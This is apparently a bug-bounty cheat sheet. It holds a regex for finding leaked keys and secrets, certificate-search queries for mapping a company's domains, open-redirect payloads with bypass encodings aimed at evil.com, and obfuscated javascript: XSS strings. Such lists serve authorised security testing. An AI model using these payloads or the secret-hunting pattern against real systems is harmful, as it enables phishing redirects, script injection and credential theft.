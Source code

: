 Search for all leaked keys/secrets using one regex! 


(?i)((access_key|access_token|admin_pass|admin_user|algolia_admin_key|algolia_api_key|alias_pass|alicloud_access_key|amazon_secret_access_key|amazonaws|ansible_vault_password|aos_key|api_key|api_key_secret|api_key_sid|api_secret|api.googlemaps AIza|apidocs|apikey|apiSecret|app_debug|app_id|app_key|app_log_level|app_secret|appkey|appkeysecret|application_key|appsecret|appspot|auth_token|authorizationToken|authsecret|aws_access|aws_access_key_id|aws_bucket|aws_key|aws_secret|aws_secret_key|aws_token|AWSSecretKey|b2_app_key|bashrc password|bintray_apikey|bintray_gpg_password|bintray_key|bintraykey|bluemix_api_key|bluemix_pass|browserstack_access_key|bucket_password|bucketeer_aws_access_key_id|bucketeer_aws_secret_access_key|built_branch_deploy_key|bx_password|cache_driver|cache_s3_secret_key|cattle_access_key|cattle_secret_key|certificate_password|ci_deploy_password|client_secret|client_zpk_secret_key|clojars_password|cloud_api_key|cloud_watch_aws_access_key|cloudant_password|cloudflare_api_key|cloudflare_auth_key|cloudinary_api_secret|cloudinary_name|codecov_token|config|conn.login|connectionstring|consumer_key|consumer_secret|credentials|cypress_record_key|database_password|database_schema_test|datadog_api_key|datadog_app_key|db_password|db_server|db_username|dbpasswd|dbpassword|dbuser|deploy_password|digitalocean_ssh_key_body|digitalocean_ssh_key_ids|docker_hub_password|docker_key|docker_pass|docker_passwd|docker_password|dockerhub_password|dockerhubpassword|dot-files|dotfiles|droplet_travis_password|dynamoaccesskeyid|dynamosecretaccesskey|elastica_host|elastica_port|elasticsearch_password|encryption_key|encryption_password|env.heroku_api_key|env.sonatype_password|eureka.awssecretkey)[a-z0-9_ .\-,]{0,25})(=|>|:=|\|\|:|<=|=>|:).{0,5}['\"]([0-9a-zA-Z\-_=]{8,64})['\"]

---------------------

# bug-bounty
Find domains 
http://crt.sh/

https://crt.sh/?O=Sony&output=json
  https://crt.sh/?q=Sony&output=json
https://crt.sh/?q=f3cd41a6035ba1b1be1670386918893734363e53


parsed.issuer.organization.raw: "Apple Inc."
https://search.censys.io/certificates


Basic Payloads:-

You can try these basic payloads to test for Open redirect vulnerability on any application

https://example.com/login?redirect=http://evil.com
https://example.com/login?redirect=javascript:alert(1);
Here evil.com is our website and if example.com redirects you to this, then its vulnerable. If this is resolved then try this payloads:-

https://example.com/login?redirect=http://example.com@evil.com
https://example.com/login?redirect=http://example.com%09.evil.com
If these are resolved, then try these:-

https://example.com/login?redirect=http://example.com%3F.evil.com
https://example.com/login?redirect=http://example.com%2523.evil.com
https://example.com/login?redirect=http://evil.com?c=.example.com
https://example.com/login?redirect=http://example.com%252Eevil.com
Other Open Redirect Payloads:-

https://example.com/login?next=//example.com@evil.com
https://example.com/login?next=/\/evil.com
https://example.com/login?next=//%2F/evil.com
https://example.com/login?next=/%0D/evil.com
https://example.com/login?next=/%5Cevil.com
https://example.com/login?next=//evil%E3%80%82com
https://example.com/login?next=%09http:///example.coc%40evil.com
Try this Intigriti open redirect payload generator tool here 


XSS Payloads for Open redirect:-

";alert(0);//
java%0d%0ascript%0d%0a:alert(0) j%0d%0aava%0d%0aas%0d%0acrip%0d%0at%0d%0a:confirm`0` java%07script:prompt`0` java%09scrip%07t:prompt`0` jjavascriptajavascriptvjavascriptajavascriptsjavascriptcjavascriptrjavascriptijavascript pjavascriptt:confirm`0`
https://www.cyberick.com/post/open-redirect-and-its-bypasses
